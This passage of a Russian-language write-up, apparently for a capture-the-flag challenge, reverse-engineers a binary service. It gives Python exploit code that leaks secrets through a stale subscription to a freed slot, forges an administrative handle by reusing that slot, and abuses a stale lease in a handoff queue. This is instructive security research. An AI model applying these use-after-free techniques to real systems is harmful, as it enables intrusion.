

До кода создания receipt дохожу так:

1. остаюсь в pseudocode `sub_2BC920`;
2. нажимаю `Ctrl+F` и ищу `sub_2BF6C0`;
3. ставлю курсор на вызов и нажимаю `Enter`;
4. возвращаюсь через `Esc` и ниже замечаю вызов `sub_2BF900`, который кодирует 32 байта.



Receipt попадает в тот же class 1 и в целевой bucket. Старая подписка продолжает смотреть на освобожденный slot и получает уже содержимое receipt.

## 9. Читаю и разбираю 32-байтный receipt

Событие подписки имеет opcode `E`. В поле данных приходят 32 байта, которые разбираются как четыре `uint64 little-endian`:

```python
reply, commit_events = request(
    sock, request_id, "C",
    ("T", transaction1),
    ("R", proof1),
)

# Переход к phase 2 активирует следующую транзакцию.
begin2, begin_events = request(sock, request_id + 1, "B")
transaction2 = number(begin2, "T")
plan2 = number(begin2, "H")

events = commit_events + begin_events
while not events:
    opcode, event_id, event = recv_frame(sock)
    if opcode == "E":
        events.append(event)

leaked = events[0]["D"][0]
assert len(leaked) == 32

word0, word1, word2, word3 = struct.unpack("<4Q", leaked)
```

### 9.1. Откуда берутся повороты 13, 21, 23 и 29

Из первой commit-функции перехожу в `sub_2BF6C0`. В assembly нахожу literal-инструкции:

```text
rol rax, 0x0b   -> 11
rol rcx, 0x17   -> 23
rol rsi, 0x1d   -> 29
```



Дальше видны domain-константы для lane и export secret:



После этого строится второй секрет через `0x589965cc75374cc3`:



В `sub_2BF900` видно, как внутренние значения кодируются в четыре слова. Здесь появляются `rol(raw_plan, 13)` и `rol(seed, 21)`:



Следовательно, эти формулы я не угадываю. Я последовательно переписываю их из двух найденных функций.

### 9.2. Восстанавливаю значения

Первое слово раскрывает seed:

```python
route_seed = word0 ^ rol64(raw_plan1, 13)
```

Из seed получается lane:

```python
lane = mix64(
    route_seed
    ^ rol64(raw_plan1, 23)
    ^ 0xE7037ED1A0B428DB
)
```

Lane содержит параметры второго этапа:

```python
route2 = lane >> 56
depth2 = (lane >> 48) % 3 + 2
class2 = lane >> 40 & 3
```

Далее получаются два разных значения. Их нельзя путать:

```python
export_secret = mix64(
    route_seed
    ^ rol64(raw_plan1, 29)
    ^ 0x8EBC6AF09C88C6E3
)

commit_secret = mix64(
    route_seed
    ^ export_secret
    ^ 0x589965CC75374CC3
)
```

`commit_secret` нужен только для второго `C`. `export_secret` нужен скрытым `Q` и `X`.

### 9.3. Проверяю, что receipt разобран правильно

`word1` содержит те же параметры в явном виде, закрытые через `rol(route_seed, 21)`:

```python
meta = word1 ^ rol64(route_seed, 21)

assert meta >> 56 == route2
assert meta >> 48 & 0xFF == depth2
assert meta >> 40 & 0xFF == class2

packed_order = meta >> 32 & 0xFF
```

`word2` проверяет export secret:

```python
assert word2 == export_secret ^ mix64(
    route_seed ^ 0x1D8E4E27C47D124F
)
```

`word3` является checksum первых трех слов и guard. Он нужен как дополнительная проверка, что 32 байта не перепутаны с обычным template.

### 9.4. Как получить order

Функция `sub_2BFB20` строит Fisher-Yates permutation. Я начинаю с `[0, 1, 2, 3]`, но использую только первые `depth2` элемента.



```python
def permutation(seed, count):
    items = list(range(count))
    state = seed

    for position in range(count - 1, 0, -1):
        state = mix64(
            state
            ^ (0x9E3779B185EBCA87 * position & MASK64)
        )
        other = state % (position + 1)
        items[position], items[other] = items[other], items[position]

    return items
```

Каждый номер занимает 2 бита. Поэтому `packed_order` можно также разобрать напрямую:

```python
order = [
    packed_order >> (2 * index) & 3
    for index in range(depth2)
]
```

## 10. Провожу второй commit и повторно занимаю slot

После первого commit соединение переходит в phase 2. В предыдущем шаге новый `B` уже вернул `transaction2` и `plan2`. Раскрываю plan известными mask и rotation:

```python
raw_plan2 = ror64(plan2, rotation) ^ mask
```

Его route должен совпасть с `route2` из receipt. Для этого снова офлайн подбираю label нужного bucket.

### 10.1. Выбираю размер template

```python
class_lengths = [8, 32, 64, 128]
template2 = b"B" * class_lengths[class2]
```

Эти длины выбраны только как простые представители четырех диапазонов из раздела 5.1.

### 10.2. Почему важен порядок D

В `sub_2BD540` phase 2 проверяет:

1. bucket каждого профиля равен `route2`;
2. class каждого профиля равен `class2`;
3. число профилей равно `depth2`;
4. последовательность отзыва точно совпадает с permutation из receipt;
5. подписка указывает на профиль, который отзывается первым.





Последовательность:

```text
B
P <label2> <class-sized value> -> h[0]
P <label2> <class-sized value> -> h[1]
...                              всего depth2 профилей
W 0x<h[order[0]]>
D 0x<h[order[0]]>
D 0x<h[order[1]]>
...
C 0x<proof2>
```

Proof второй стадии отличается от первого:

```python
proof2 = mix64(
    transaction2
    ^ raw_plan2
    ^ commit_secret
    ^ 0x186693139691AE61
)
```

Именно эту ветку с дополнительным секретом видно в `sub_2BDF60` на скрине проверки proof.

### 10.3. Почему административный профиль попадает в нужный slot

После проверки entries переносятся в free list в заданном order. Затем функция создает `depth2 - 1` padding objects и последним создает объект другого kind - административный профиль.



Free list работает как lifo. Из-за выбранного порядка последний служебный объект занимает slot первого отозванного профиля. На него все еще смотрит старая подписка.

### 10.4. Строю handle нового объекта

У старого handle уже известны bucket и slot. `D` увеличил generation с 1 до 2. Поэтому меняю только верхние 16 бит сырого handle:

```python
tracked = handles2[order[0]]
old_raw = ror64(tracked, rotation) ^ mask

admin_raw = (
    old_raw & ((1 << 48) - 1)
) | (2 << 48)

admin_handle = rol64(admin_raw ^ mask, rotation)
```

Это не перебор адреса. Я повторно упаковываю те же bucket и slot с новой generation по формату, который уже нашел в `P`.

## 11. Нахожу скрытые действия Q

Из dispatcher перехожу в `sub_2BDBE0` и нажимаю `F5`.





Обработчик требует поле `A` длиной ровно один байт. Затем сравнивает этот байт:

```text
97  = 0x61 = 'a'
99  = 0x63 = 'c'
'p'
'r'
't'
```

Так я получаю действия `a`, `t`, `p`, `r`, `c`. Их тоже беру из switch, а не угадываю.

Назначение устанавливается по передаваемым полям и возвращаемому значению:

| действие | входные поля | результат |
| --- | --- | --- |
| `a` | `A`, `H`, `R` | создать operation, вернуть `I` |
| `t` | `A`, `I` | взять lease, вернуть `H` |
| `p` | `A`, `I`, `H` | вернуть lease в очередь |
| `r` | `A`, `I` | owner выполняет resume |
| `c` | `A`, `I`, `H` | завершить через stale lease, вернуть proof в `R` |

Здесь `R` при действии `a` - это `export_secret`, а не `commit_secret`.

## 12. Использую баг в handoff queue

Для этой части открываю два соединения:

```text
owner  - владеет operation и выполняет resume
worker - берет и возвращает lease
```

Последовательность:

```text
owner:  Q(a, admin_handle, export_secret) -> operation
worker: Q(t, operation)                   -> lease1
worker: Q(t, operation)                   -> lease2
worker: Q(p, operation, lease1)
owner:  Q(r, operation)
worker: Q(c, operation, lease2)           -> handoff_proof
```

Те же запросы через binary helper:

```python
reply, _ = request(
    owner, 1, "Q",
    ("A", b"a"),
    ("H", admin_handle),
    ("R", export_secret),
)
operation = number(reply, "I")

reply, _ = request(worker, 1, "Q", ("A", b"t"), ("I", operation))
lease1 = number(reply, "H")

reply, _ = request(worker, 2, "Q", ("A", b"t"), ("I", operation))
lease2 = number(reply, "H")

request(worker, 3, "Q", ("A", b"p"), ("I", operation), ("H", lease1))
request(owner, 2, "Q", ("A", b"r"), ("I", operation))

reply, _ = request(
    worker, 4, "Q",
    ("A", b"c"),
    ("I", operation),
    ("H", lease2),
)
handoff_proof = number(reply, "R")
```

Почему это работает:

1. `t` дважды выдает ссылки на один логический узел;
2. `p` возвращает первый lease;
3. `r` меняет состояние и generation узла;
4. второй lease все еще содержит старую ссылку;
5. `c` сопоставляет повторно использованный узел и вычисляет proof.

В `sub_2BF040` перед вычислением proof нахожу проверки состояния operation, reused node и lease:





После проверок видна domain-константа `0x68616e646f66662d`, которая в ascii читается как `handoff-`. Результат `mix64` записывается в operation и возвращается как поле `R`.

## 13. Отправляю финальный X

В dispatcher `case 88`, то есть ascii `X`, ведет в `sub_2BD7C0`.

Сначала `X` раскрывает `admin_handle` через те же `ror` и `xor`. Затем вызывает `sub_2BF3A0`, которая проверяет связь:

```text
admin handle
export secret
handoff proof
operation
```

